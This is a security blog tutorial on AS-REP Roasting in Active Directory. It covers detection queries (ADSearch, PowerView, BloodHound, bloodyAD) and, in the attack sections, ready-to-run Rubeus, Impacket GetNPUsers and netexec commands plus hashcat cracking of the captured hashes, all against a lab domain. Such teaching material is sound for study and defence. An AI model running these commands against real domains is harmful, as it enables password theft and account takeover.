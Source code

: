 ```yaml
---
title: 🎟️ Ticket to the Kingdom Kerberos Attack - As-RepRoasting
date: 2025-10-29 01:01:00 +/-TTTT
categories: [Kerberos-Attack]
tags: [As-RepRoasting]     # TAG names should always be lowercase
image : /assets/images/asreproastingbackground.png
---
```

> Author : lineeralgebra
{:.prompt-tip}

AS-REP Roasting is an attack technique that targets user accounts in Active Directory with the **"Do not require Kerberos preauthentication"** setting enabled. Normally, when a user requests authentication from a Domain Controller (DC), Kerberos preauthentication ensures that the user proves knowledge of their password before the DC issues a ticket. However, if this protection is disabled, an attacker can request an **AS-REP (Authentication Service Response)** directly from the DC without needing to know the user’s password.

The response contains data encrypted with the user’s password hash. An attacker can capture this information and perform **offline brute-force or dictionary attacks** against it to recover the plaintext password.

AS-REP Roasting is particularly dangerous because:

- It does not require valid domain credentials to perform the initial request.
- It can be executed remotely without needing to log on to a machine.
- It often exposes weak or reused passwords that can be cracked quickly.

In real environments, administrators sometimes (accidentally or for legacy reasons) disable preauthentication for service accounts or users, making them vulnerable to this attack. Detecting and remediating these misconfigurations is an important part of Active Directory hardening.

## As-RepRoasting happening why?

![alt text](../assets/images/kerberos12.png)

so in this case its happening when `dontreqpreauth` , `DONT_REQ_PREAUTH`  not lets detecet it!!!

### As-RepRoasting detection with ADsearch.exe

```bash
[08/20 22:18:32] execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
```

![alt text](../assets/images/kerberos13.png)

### As-RepRoasting detection with Powerview.py

we now how to login so execute to command

```bash
 Get-DomainUser -PreauthNotRequired
```

![alt text](../assets/images/kerberos14.png)

or on **WEB INTERFACES**

![alt text](../assets/images/kerberos15.png)

### As-RepRoasting detection with Bloodhound

![alt text](../assets/images/kerberos16.png)

or with cipher directly

```bash
MATCH (u:User)
WHERE u.dontreqpreauth = true
AND u.enabled = true
RETURN u
LIMIT 100
```

### As-RepRoasting detection with bloodyAD

```bash
bloodyAD --host VALENOR-DC01.lab.local -u ldapuser -p 'liverpool' -d lab.local get search  --filter "(&(objectCategory=user)(servicePrincipalName=*))" --attr dontreqpreauth

distinguishedName: CN=ldapuser,CN=Users,DC=lab,DC=local

distinguishedName: CN=krbtgt,CN=Users,DC=lab,DC=local
```

## As-RepRoasting Attack

Now we learnt why is happening how we can verify and detect now time to attack!!!

### As-RepRoasting Attack with Rubeus

We will use execute-assembly again for run Rubeus u can find here (.Net Assembly) version

https://github.com/Flangvik/SharpCollection

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/Rubeus.exe asreproast /nowrap
```

![alt text](../assets/images/kerberos17.png)

we can also `preauthscan`  from Rubeus its imporatnt sometimes like https://github.com/GhostPack/Rubeus?tab=readme-ov-file#preauthscan

![alt text](../assets/images/kerberos18.png)

We have to create username list first how???  we learn before

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/ADSearch.exe --search "(&(objectCategory=user))"
```

![alt text](../assets/images/kerberos19.png)

and 

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/Rubeus.exe preauthscan /user:users.txt /domain:lab.local /dc:192.168.1.10
```

### As-RepRoasting Attack with Impacket

[Impacket](https://github.com/fortra/impacket)  is anoter great remote tool for use we can use easily

We will use [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) but highly reccommend to read code before run it.

We can verify with

```bash
GetNPUsers.py 'lab.local/ldapuser:liverpool' -dc-ip 192.168.1.10
```

![alt text](../assets/images/kerberos20.png)

for attack we need username list how we can create? its relly easy to use with `netexec`

![alt text](../assets/images/kerberos21.png)

and 

```bash
➜  Kerberos cat nxcusers.txt | awk '{print $5}' > users.txt
➜  Kerberos cat users.txt 
elli.oralie
mireille.hildagard
elfie.sunny
mollie.elianore
laney.patrizia
maurizia.candi
```

now attack time!!!

```bash
GetNPUsers.py lab.local/ -dc-ip 192.168.1.10 -u users.txt
```

![alt text](../assets/images/kerberos22.png)

### As-RepRoasting Attack with netexec

We saw netexec before they are relly on fire so we can use directly netexec to request it!!!

```bash
nxc ldap 192.168.1.10 -u users.txt '' --asreproast asreproast_hashes.txt 
```

## As-RepRoasting hash crack

There is 2 way to crack but i would say [hashcat](https://hashcat.net/hashcat/) is better cause we will understand which format we are crack in.

we just need to go https://hashcat.net/wiki/doku.php?id=example_hashes and look for hash examples look likes to us.

- Our hash start with `$krb5asrep$23`
    
![alt text](../assets/images/kerberos23.png)
    

so we can use `18200` module for crack it

```bash
hashcat -m 18200 merrie.cary_hash /usr/share/wordlists/rockyou.txt
```

![alt text](../assets/images/kerberos24.png)

## My Approach for Kerberoasting vs AS-REPRoasting

- If i started lab from scract and if i got some users potentally first of all verify them with [kerbrute](https://github.com/ropnop/kerbrute) and do asreproast cause we dont need creds
- If i have creds just try kerberoasting if i unsuccessfull create user list and do asreproasting